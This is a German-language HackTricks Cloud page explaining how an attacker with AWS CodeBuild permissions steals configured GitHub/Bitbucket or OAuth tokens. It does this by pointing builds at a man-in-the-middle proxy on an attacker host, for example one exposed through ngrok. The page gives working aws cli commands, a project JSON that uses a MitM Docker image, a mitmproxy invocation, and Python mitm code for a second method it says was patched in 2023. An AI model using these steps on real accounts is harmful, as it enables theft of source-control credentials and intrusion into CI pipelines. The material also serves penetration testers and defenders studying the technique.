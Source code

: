 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Wiederherstellen von Github/Bitbucket konfigurierten Tokens

Überprüfen Sie zunächst, ob es Quellanmeldeinformationen gibt, die Sie möglicherweise leaken könnten:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH-Token oder OAuth-Token**), indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzustellen und **das Docker-Image zu erstellen**.
* **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy auf Ihren Host einzustellen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...)
2. **Umgebung festlegen**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Stellen Sie den MitM-Proxy auf Ihrem Host ein**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie Folgendes verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Über das HTTP-Protokoll~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in über einem CodeBuild könnte das konfigurierte Github/Bitbucket-Token** oder, wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird, leaken**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dann die URL des Github-Repos ändern, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) im Port ausführen, auf den die Proxy-Variablen (http\_proxy und https\_proxy) zeigen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Build the project**, die **Anmeldeinformationen** werden im **Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Jetzt kann ein Angreifer das Token von seinem Rechner verwenden, alle Privilegien auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
